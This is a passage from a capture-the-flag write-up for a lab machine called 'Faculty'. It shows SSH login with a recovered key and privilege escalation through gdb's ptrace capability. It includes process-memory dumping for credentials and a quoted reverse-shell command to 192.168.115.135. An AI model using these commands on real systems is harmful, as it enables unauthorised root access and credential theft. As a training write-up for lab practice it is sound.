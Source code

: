 Login and grab `user.txt`:
```
➜  faculty vim developer-id_rsa          
➜  faculty chmod 400 developer-id_rsa 
➜  faculty ssh developer@faculty.htb -i developer-id_rsa
developer@faculty:~$ id && cat user.txt
uid=1001(developer) gid=1002(developer) groups=1002(developer),1001(debug),1003(faculty)
904b8c9a6982c444e519674b88a31b25
```


# ROOT
### Step 1
As seen from `id` user `developer` is part of group `debug`, this is interesting. 
See if there are any files owned by group `debug`:
```bash
developer@faculty:/$ find / -group debug 2> /dev/null
/usr/bin/gdb
```

With [GDB](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#gdb) we can attach different processes and dump their memory, in hope of finding credentials. 
```bash
gdb -p <FTP_PROCESS_PID>
(gdb) info proc mappings
(gdb) q
(gdb) dump memory /tmp/<name>.mem <START_HEAD> <END_HEAD>
(gdb) q
strings /tmp/<name>.mem
```

Trying to dump a lot of processes I find nothing and decide to continue looking for other ways to use gdb. 

After a while I come across [this information](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#cap_sys_ptrace) from HackTricks:
_"If **GDB** is installed (or you can install it with `apk add gdb` or `apt install gdb` for example) you can **debug a process from the host** and make it call the `system` function. (This technique also requires the capability `SYS_ADMIN`)**.**"_

With this example attached to it:
```bash
gdb -p 1234
(gdb) call (void)system("ls")
(gdb) call (void)system("sleep 5")
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/192.168.115.135/5656 0>&1'")
```

_"**Linux Capabilities** are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root permissions. This model allows the binary or program to grant specific permissions to perform privileged operations rather than giving them root privileges by granting setuid, setguid or sudo without a password."_
```bash
developer@faculty:~$ getcap $(which gdb)
/usr/bin/gdb = cap_sys_ptrace+ep
```
